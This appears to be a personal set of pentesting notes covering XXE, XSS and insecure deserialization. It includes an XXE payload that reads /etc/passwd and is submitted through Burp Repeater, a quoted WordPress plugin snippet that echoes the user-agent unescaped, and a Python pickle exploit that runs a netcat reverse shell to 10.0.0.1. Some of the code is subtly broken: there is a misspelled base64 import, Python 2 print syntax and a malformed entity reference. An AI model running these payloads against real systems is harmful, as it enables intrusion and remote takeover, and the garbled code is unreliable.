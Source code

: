## Links

- [PayLoad All The Things XXE](https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/)
- [PayLoad All The Things XSS](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)

### XXE Injection
```
//Ability to read files on system
//XML elements, what are they?

touch test.xml
	test data

Upload the test file to the XML site

On Burp get request log
Send to repeater

change body of file to what it wants to see the 200
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<Wrapper>
	<Author>author</Author>
	<Subject>&xxe</Subject>
	<Content>content</Content>
</Wrapper>




```

## XXS Injection
```
This PHP function is responsible for parsing various HTTP request headers, including the UserAgent, which is saved in the useragent record value. Next, each time a WordPress administrator loads the Visitor plugin, the function will execute the following portion of code from start.php:

$i=count(VST_get_records($date_start, $date_finish)); foreach(VST_get_records($date_start, $date_finish) as $record) { echo ' <tr class="active" > <td scope="row" >'.$i.'</td> <td scope="row" >'.date_format(date_create($record->datetime), get_option("links_updated_date_format")).'</td> <td scope="row" >'.$record->patch.'</td> <td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record>ip.'#ipresult">'.$record->ip.'</a></td> <td>'.$record->useragent.'</td> </tr>'; $i--; }

```

![XSS Example](XSSExample.png)

![XSS Flow Chart](XSSFlowChart.png)


## Insecure Deserialization

```

import pickle
from base64 import urlsafe_b54encode as b64encode

RUNME = """rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"""


class ElevateSecurity(object):
	def __reduce__(self):
		import os
		return (os.system,(RUNME,))
print b64encode(pickle.dumps(ElevateSecurity()))


Take the output of this and put in the burp repeater for the xml upload site

Go to IP/newpost
Change from GET to POST
Just change content-type to text